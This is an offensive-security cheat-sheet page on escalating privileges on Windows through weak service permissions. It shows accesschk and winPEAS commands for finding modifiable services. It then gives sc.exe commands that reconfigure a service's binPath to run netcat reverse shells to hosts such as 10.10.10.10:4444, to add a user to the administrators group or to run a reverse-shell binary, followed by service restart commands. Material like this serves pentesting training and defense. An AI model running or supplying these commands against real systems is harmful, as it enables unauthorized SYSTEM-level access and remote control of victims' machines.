 # Weak Service Permission

## Theory
It is very often in Windows environments to discover services that run with SYSTEM privileges. If you have permissions over the service you can use it to escalate you privileges.

## Practice

If we have enought permissions over a service, we can edit the `binPath` parameters and replace it with our own binary or command. 
{% tabs %}
{% tab title="Enum" %}
If you have `SERVICE_CHANGE_CONFIG` or `SERVICE_ALL_ACCESS` permissions, you can replace the binary.

We can use [AccessChk](https://learn.microsoft.com/fr-fr/sysinternals/downloads/accesschk) from sysinternals tools to enum permissions over services.
```powershell
#list all the services that a specific user can modify.
accesschk64.exe -uwcqv "pwned" * -accepteula
accesschk64.exe -uwcqv "Authenticated Users" * -accepteula
accesschk64.exe -uwcqv "BUILTIN\Users" * -accepteula
accesschk.exe -uwcqv %USERNAME% * -accepteula

#list permissions of evryone.
accesschk64.exe -uwcqv * -accepteula

#list permissions for "VulnSvc" service.
accesschk64.exe -uwcqv VulnSvc -accepteula
```

We also can use the `servicesinfo` module of winpeas
```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}

We can edit the binpath parameter with following commands
```powershell
sc.exe config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc.exe config <Service_Name> binpath= "net localgroup administrators username /add"
sc.exe config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"s
sc.exe config <Service_Name> binpath= "C:\Documents and Settings\PEPE\reverseShell.exe"
```

And then, restart the service
```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc.exe stop <Service_Name>
sc.exe start <Service_Name>
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services" %}